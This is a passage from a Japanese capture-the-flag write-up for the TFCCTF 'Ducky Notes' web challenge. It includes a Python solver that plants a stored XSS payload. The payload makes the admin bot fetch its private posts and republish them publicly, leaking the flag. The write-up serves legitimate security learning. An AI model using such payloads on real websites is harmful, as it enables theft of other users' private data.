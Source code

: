 titleには空の値を入れられるため、Exceptionは発生させられるが、FLAGではないpostがエラーログに書き出される。  

実はエラーログではなく、そのエラー時の画面が問題だったらしい。  
試しにadminで該当の画面にアクセスしてみると、XSSが動いた。

![2.jpg](images/2.jpg)

後は、XSSでFLAGを取得するだけ。  
adminにhiddenをfalseにした投稿をさせることで、外部ドメインを利用しなくてもFLAGを取得できるようです。

- solver.py

```py
#!/usr/local/bin/python
import requests
import time

# TARGET = 'http://challs.tfcctf.com:32673'
TARGET = 'http://localhost:1337'

def solve():
  session = requests.Session()
  user = {'username': '..', 'password': 'test'}
  r = session.post(f'{TARGET}/api/register', json=user)
  assert r.status_code == 200

  r = session.post(f'{TARGET}/api/login', json=user)
  assert r.status_code == 200

  post = {
    'content': "<script>fetch('http://localhost:1337/posts/view/admin').then(res => res.text()).then(text => {fetch('http://localhost:1337/api/posts',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({title:'admin',content:text,hidden:false})})})</script>",
    'hidden': False
  }
  r = session.post(f'{TARGET}/api/posts', json=post)
  assert r.status_code == 200

  r = session.post(f'{TARGET}/api/report')
  assert r.status_code == 200

  time.sleep(10)
  r = session.get(f'{TARGET}/posts/view/admin')
  print(r.text)

solve()
```

## WEB/DUCKY NOTES: ENDGAME

297 points / 47 solves

競技中は解けなかった問題。  
[WEB/DUCKY NOTES: PART 3](#webducky-notes-part-3)の続き。  

